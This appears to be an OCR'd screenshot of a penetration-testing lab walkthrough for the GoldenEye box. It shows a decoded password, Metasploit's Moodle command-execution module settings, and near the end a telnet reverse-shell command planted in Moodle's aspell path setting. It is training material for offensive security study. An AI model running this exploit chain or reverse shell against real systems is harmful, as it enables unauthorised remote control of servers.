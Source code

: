Megapixels                      : 0.066
                                                                                           
┌──(kali㉿kali)-[~/OSCP/boxes/goldeneye]
└─$ echo -n 'eFdpbnRlcjE5OTV4IQ==' | base64 -d                                        
xWinter1995x!


moodle v 2.2.3

msf6 exploit(multi/http/moodle_cmd_exec) > show options

Module options (exploit/multi/http/moodle_cmd_exec):

   Name       Current Setting        Required  Description
   ----       ---------------        --------  -----------
   PASSWORD   xWinter1995x!          yes       Password to authenticate with
   Proxies                           no        A proxy chain of format type:host:port[,ty
                                               pe:host:port][...]
   RHOSTS     severnaya-station.com  yes       The target host(s), range CIDR identifier,
                                                or hosts file with syntax 'file:<path>'
   RPORT      80                     yes       The target port (TCP)
   SESSKEY                           no        The session key of the user to impersonate
   SSL        false                  no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /gnocertdir/           yes       The URI of the Moodle installation
   USERNAME   admin                  yes       Username to authenticate with
   VHOST                             no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/http/moodle_cmd_exec) > run

[*] Started reverse TCP double handler on 192.168.56.1:4444 
[*] Authenticating as user: admin
[-] Exploit aborted due to failure: no-access: Login failed
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/moodle_cmd_exec) > 




Site administration --> Plugins --> Text editors --> TinyMCE HTML editor -->  Spell engine : PSpellShell
Site administration --> Server --> System paths --> Path to aspell : sh -c '(sleep 4062|telnet 192.168.56.1 3333 | /bin/bash | telnet 192.168.56.1 4444 &)'

sh -c '(sleep 4062|telnet 192.168.56.1 3333 | /bin/bash | telnet 192.168.56.1 4444 &)'
